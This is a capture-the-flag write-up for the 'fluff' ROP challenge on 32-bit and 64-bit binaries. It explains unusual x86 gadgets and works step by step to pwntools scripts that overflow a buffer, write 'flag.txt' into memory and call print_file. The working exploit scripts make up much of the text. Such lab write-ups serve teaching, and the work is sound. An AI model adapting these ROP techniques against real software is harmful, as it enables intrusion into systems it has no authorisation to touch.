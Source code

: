# FLUFF

Time to learn more assembly.

## 32-bit

<details>
  <summary><b>Solution:</b></summary>

  ### Information gathering

  Useful functions:

  ```
  0x080483b0  pwnme@plt
  0x080483d0  print_file@plt
  0x0804852a  usefulFunction
  0x08048538  call   0x80483d0 <print_file@plt>
  0x08048543  questionableGadgets
  ```

  Writeable area:

  ```
  [24] .data
      PROGBITS        0804a018 001018 000008 00   0   0  4
      [00000003]: WRITE, ALLOC
  [25] .bss
      NOBITS          0804a020 001020 000004 00   0   0  1
      [00000003]: WRITE, ALLOC
  ```

  Questionable Gadgets:

  ```
  0x08048543 <+0>:     mov    eax,ebp
  0x08048545 <+2>:     mov    ebx,0xb0bababa
  0x0804854a <+7>:     pext   edx,ebx,eax
  0x0804854f <+12>:    mov    eax,0xdeadbeef
  0x08048554 <+17>:    ret    
  0x08048555 <+18>:    xchg   BYTE PTR [ecx],dl
  0x08048557 <+20>:    ret    
  0x08048558 <+21>:    pop    ecx
  0x08048559 <+22>:    bswap  ecx
  0x0804855b <+24>:    ret
  ```

  `dl` is just the [lowest 8 bits for `edx`](https://resources.infosecinstitute.com/topic/registers/).
  Now knowing only `eax`, `ebx`, `ebp`, `ecx`, `edx` are used, I can find the related gadgets in pwntools.

  ```py
  >>> r.eax
  >>> r.ebx
  Gadget(0x8048399, ['pop ebx', 'ret'], ['ebx'], 0x8)
  >>> r.ebp
  Gadget(0x80485bb, ['pop ebp', 'ret'], ['ebp'], 0x8)
  >>> r.ecx
  >>> r.edx
  >>>
  ```

  It seems that I need to be more creative...

  ### More assembly

  *Working backwards*, the `xchg BYTE PTR [ecx],dl; ret;` gadget caught my attention:

  > Exchanges (swaps) the value of 2 registers [source](https://www.aldeid.com/wiki/X86-assembly/Instructions/xchg)

  This is just assignment into ecx, which can be controlled using `0x08048558` just [with byte order swapped](https://www.felixcloutier.com/x86/bswap).

  For `dl` (`edx`), it's value can only be set using the `pext edx,ebx,eax` command.

  > PEXT uses a mask in the second source operand (the third operand) to transfer either contiguous or non-contiguous bits in the first source operand (the second operand) to contiguous low order bit positions in the destination (the first operand). For each bit set in the MASK, PEXT extracts the corresponding bits from the first source operand and writes them into contiguous lower bits of destination operand. The remaining upper bits of destination are zeroed. [source](https://www.felixcloutier.com/x86/pext)

  The most convenient way to use it is to set `ebp` and then invoke `0x08048543`.
  Then I shall have full control of `eax`, which is the mask to the `pext` command.

  ### Devising and crafting the payload

  ```py
  def craft_mask(bit_char):
    EBX = 0xb0bababa
    mask, count = 0,0
    for i in range(32):
      if not (bit_char[0] & (2**count)) == not (EBX & (2**i)):
        mask ^= 2**i
        count += 1
      if count ==8:
        break
    return mask
  
  for c in b"flag.txt\x00":
    print(hex(craft_mask(c)))
  ```

  I verified visually the output was indeed correct:

  ```
  10110000101110101011101010111010
                   0  1 10 0  1 10
                       01 10 110 0
                               ...
  ```

  ```py
  from pwn import *
  def gen_stack(bit_char, location):
    ECX = p32(0x08048558)+p32(location)[::-1]
    EDX = p32(0x80485bb)+p32(craft_mask(bit_char))+p32(0x08048543)
    WRITE = p32(0x08048555)
    return ECX+EDX+WRITE

  payload = b"A"*40+p32(0)+b"".join(gen_stack(c,0x0804a018+i) for i,c in enumerate(b"flag.txt\x00"))+(p32(0x08048538)+p32(0x0804a018))

  print(f"r < <(python3 -c 'import sys;sys.stdout.buffer.write({payload})')")

  p = process('fluff32')
  p.sendafter(b"> ", payload)
  p.interactive()
  ```

</details>

## 64-bit

<details>
  <summary><b>Solution:</b></summary>

  ### Information gathering


  Useful functions:

  ```
  0x400500  pwnme@plt
  0x400510  print_file@plt
  0x400617  usefulFunction
  0x400620  call 0x400510 <print_file@plt>
  0x400628  questionableGadgets
  ```

  Writeable area:

  ```
  [23] .data
      PROGBITS         0000000000601028  0000000000001028  0
      0000000000000010 0000000000000000  0                 8
      [0000000000000003]: WRITE, ALLOC
  [24] .bss
      NOBITS           0000000000601038  0000000000001038  0
      0000000000000008 0000000000000000  0                 1
      [0000000000000003]: WRITE, ALLOC
  ```

  Questionable gadgets:

  ```
  0x400628 <+0>:     xlat   BYTE PTR ds:[rbx]
  0x400629 <+1>:     ret    
  0x40062a <+2>:     pop    rdx
  0x40062b <+3>:     pop    rcx
  0x40062c <+4>:     add    rcx,0x3ef2
  0x400633 <+11>:    bextr  rbx,rcx,rdx
  0x400638 <+16>:    ret    
  0x400639 <+17>:    stos   BYTE PTR es:[rdi],al
  0x40063a <+18>:    ret
  ```

  ### More assembly

  The commands are a bit harder this time.

  - [xlat](https://www.felixcloutier.com/x86/xlat:xlatb)
  - [bextr](https://www.felixcloutier.com/x86/bextr)
  - [stos](https://www.felixcloutier.com/x86/stos:stosb:stosw:stosd:stosq)
  - [ds:[rbx\]](https://en.wikipedia.org/wiki/X86_assembly_language#Segmented_addressing)
  
  `ds` and `es` are section registers:
  - [reading: 0xinfection](https://0xinfection.github.io/reversing/pages/part-11-segment-registers.html)
  - [reading: datacadamia](https://datacadamia.com/computer/memory/segment/register)
  - I can print their values in gdb with `info reg` when program is executing
  - [reading: stackoverflow (ds and es are always 0 in x64)](https://stackoverflow.com/questions/28209582/why-are-the-data-segment-registers-always-null-in-gdb)

  So only `rax`,`rbx`,`rcx`,`rdx`,`rdi` are needed.

  ```py
  >>> r.rax
  >>> r.rbx
  >>> r.rcx
  >>> r.rdx
  >>> r.rdi
  Gadget(0x4006a3, ['pop rdi', 'ret'], ['rdi'], 0x10)
  >>>
  ```

  ### Devising and crafting the payload

  Clearing the clutter:

  ```
  0x400628 <+0>:     xlat   BYTE PTR [rbx]
  0x400629 <+1>:     ret    

  0x40062a <+2>:     pop    rdx
  0x40062b <+3>:     pop    rcx
  0x40062c <+4>:     add    rcx,0x3ef2
  0x400633 <+11>:    bextr  rbx,rcx,rdx
  0x400638 <+16>:    ret    

  0x400639 <+17>:    stos   BYTE PTR [rdi],al
  0x40063a <+18>:    ret
  ```

  Working backwards:
  
  - I have write memory at `rdi` with content of `al` by `0x400639`.
  - I can freely change `rdi` with `0x4006a3`.
  - `al` is changed by `0x400628` according to `[rbx]`, but *AL is used to specify the table index as well*. I'll be ignoring this part for the moment
  - `rbx` is changed with `rcx` and `rdx`. They are slightly modified after being popped from the stack.

  The characters can be gathered in the `.dynstr` or `.interp` section (any static readable memory of the executable will do), which stores function names:

  ```
  f   0x4003e2
  l   0x4003e4
  a   0x400411
  g   0x4003cf
  .   0x400439
  t   0x400419
  x   0x400246
  t   0x400419
  \00 0x40043a
  ```

  This can be verified with `ds` or `hexdump` in pwndbg.

  **First attempt:**

  ```py
  from pwn import *

  lookup = {
    b'f':   0x4003e2,
    b'l':   0x4003e4,
    b'a':   0x400411,
    b'g':   0x4003cf,
    b'.':   0x400439,
    b't':   0x400419,
    b'x':   0x400246,
    b'\00': 0x40043a,
  }

  def gen_stack(bit_char, location):
    RCX = p64(lookup[bytes([bit_char])]-0x3ef2)
    RDX = p64((24<<8)+0)
    AL = p64(0x40062a)+RDX+RCX + p64(0x400628)
    RDI = p64(0x4006a3)+p64(location)
    return AL + RDI + p64(0x400639) + p64(0x40063a) # easier alignment

  payload = b"A"*40+b"".join(gen_stack(c,0x601028+i) for i,c in enumerate(b"flag.txt\x00"))+(p64(0x4006a3)+p64(0x601028)+p64(0x400620))

  f = open("payload.bin", "wb")
  f.write(payload)
  f.close()

  p = process('fluff')
  p.sendafter(b"> ", payload)
  p.interactive()
  ```
  *(this time I supplied the bytes to a file as escaping is pain)*

  Unsurprisingly, the program SEGFAULTed. From debugging I found out that the actual first letter taken is `_` (0x5f).
  The reason is that `al` isn't from `0x4003e2` but `0x4003e2`+`0xb` = `0x4003ed`, as `al` is initially `0xb` and changes each letter.

  **Adapting to this, second attempt:**

  ```py
  from pwn import *

  lookup = {
    b'f':   0x4003e2,
    b'l':   0x4003e4,
    b'a':   0x400411,
    b'g':   0x4003cf,
    b'.':   0x400439,
    b't':   0x400419,
    b'x':   0x400246,
    b'\00': 0x40043a,
  }

  offset = 0xb # first change

  def gen_stack(bit_char, location):
    global offset
    RCX = p64(lookup[bytes([bit_char])]-0x3ef2-offset)
    offset = bit_char
    RDX = p64((24<<8)+0)
    AL = p64(0x40062a)+RDX+RCX + p64(0x400628)
    RDI = p64(0x4006a3)+p64(location)
    return AL + RDI + p64(0x400639) + p64(0x40063a) # easier alignment

  payload = b"A"*40+b"".join(gen_stack(c,0x601028+i) for i,c in enumerate(b"flag.txt\x00"))+(p64(0x4006a3)+p64(0x601028)+p64(0x400620))

  f = open("payload.bin", "wb")
  f.write(payload)
  f.close()

  p = process('fluff')
  p.sendafter(b"> ", payload)
  p.interactive()
  ```

  I didn't realize my payload was too long (0x280 bytes), but it's easily visible from the stack that my payload hasn't been loaded completely.

  Three insights here:
  
  - the `ret` at the end of each letter is REALLY space-consuming
  - it's okay to set `rdx` only once and call from `0x40062b`
  - it's okay to not set the final null byte as `.data` is all null to begin with

  ```py
  from pwn import *

  lookup = {
    b'f':   0x4003e2,
    b'l':   0x4003e4,
    b'a':   0x400411,
    b'g':   0x4003cf,
    b'.':   0x400439,
    b't':   0x400419,
    b'x':   0x400246,
  }

  offset = 0xb # first change
  RDX = p64((24<<8)+0) # second change

  def gen_stack(bit_char, location):
    global offset, RDX
    RCX = p64(lookup[bytes([bit_char])]-0x3ef2-offset)
    AL = p64(0x40062a)+RDX+RCX + p64(0x400628) if offset == 0xb else p64(0x40062b)+RCX + p64(0x400628)
    RDI = p64(0x4006a3)+p64(location)
    offset = bit_char
    return AL + RDI + p64(0x400639)

  payload = b"A"*40+b"".join(gen_stack(c,0x601028+i) for i,c in enumerate(b"flag.txt"))+(p64(0x4006a3)+p64(0x601028)+p64(0x40043a)+p64(0x400620))

  f = open("payload.bin", "wb")
  f.write(payload)
  f.close()

  p = process('fluff')
  p.sendafter(b"> ", payload)
  p.interactive()
  ```

  This time my payload has only 0x1c8 characters. The gdb error showed the segfault occurred in _int_malloc, i.e. just a stack alignment issue.

  **Final solution:**

  ```py
  from pwn import *

  lookup = {
    b'f':   0x4003e2,
    b'l':   0x4003e4,
    b'a':   0x400411,
    b'g':   0x4003cf,
    b'.':   0x400439,
    b't':   0x400419,
    b'x':   0x400246,
  }

  offset = 0xb # first change
  RDX = p64((24<<8)+0) # second change

  def gen_stack(bit_char, location):
    global offset, RDX
    RCX = p64(lookup[bytes([bit_char])]-0x3ef2-offset)
    AL = p64(0x40062a)+RDX+RCX + p64(0x400628) if offset == 0xb else p64(0x40062b)+RCX + p64(0x400628)
    RDI = p64(0x4006a3)+p64(location)
    offset = bit_char
    return AL + RDI + p64(0x400639)

  payload = b"A"*40+b"".join(gen_stack(c,0x601028+i) for i,c in enumerate(b"flag.txt"))+(p64(0x4006a3)+p64(0x601028)+p64(0x4006a4)+p64(0x400620))

  f = open("payload.bin", "wb")
  f.write(payload)
  f.close()

  p = process('fluff')
  p.sendafter(b"> ", payload)
  p.interactive()
  ```

</details>

